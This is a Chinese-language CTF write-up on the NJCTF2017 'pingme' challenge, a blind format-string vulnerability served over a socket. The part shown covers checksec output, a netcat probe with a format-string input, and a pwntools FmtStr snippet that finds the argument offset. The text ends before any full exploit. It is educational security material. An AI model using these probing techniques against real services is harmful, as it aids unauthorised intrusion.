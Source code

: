 ```yaml
---
layout: post
title:  "pwn NJCTF2017 pingme"
image: ''
date:   2017-11-13 00:06:31
tags:
- ctf
description: ''
categories:
- ctf
---
```


- [题目复现](#题目复现)
- [Blind fmt 原理及题目解析](#blind-fmt-原理及题目解析)
- [漏洞利用](#漏洞利用)
- [参考资料](#参考资料)


## 题目复现
在 6.1.1 中我们看到了 blind ROP，这一节中则将看到 blind fmt。它们的共同点是都没有二进制文件，只提供 ip 和端口。

checksec 如下：
```
$ checksec -f pingme 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATHFORTIFY Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No        0               2       pingme
```
关闭 ASLR，然后把程序运行起来：
```
$ socat tcp4-listen:10001,reuseaddr,fork exec:./pingme &
```


## Blind fmt 原理及题目解析
格式化字符串漏洞我们已经在 3.3.1 中详细讲过了，blind fmt 要求我们在没有二进制文件和 libc.so 的情况下进行漏洞利用，好在程序没有开启任何保护，利用很直接。

通常有两种方法可以解决这种问题，一种是利用信息泄露把程序从内存中 dump 下来，另一种是使用 pwntools 的 DynELF 模块（关于该模块的使用我们在章节 4.4 中有讲过）。


## 漏洞利用
#### 确认漏洞
首先你当然不知道这是一个栈溢出还是格式化字符串，栈溢出的话输入一段长字符串，但程序是否崩溃，格式化字符串的话就输入格式字符，看输出。
```
$ nc 127.0.0.1 10001
Ping me
ABCD%7$x
ABCD44434241
```
很明显是格式字符串，而且 ABCD 在第 7 个参数的位置，实际上当然不会这么巧，所以需要使用一个脚本去枚举。这里使用 pwntools 的 fmtstr 模块了：
```python
def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
auto = FmtStr(exec_fmt)
offset = auto.offset
```
```
[*] Found format string offset: 7
```
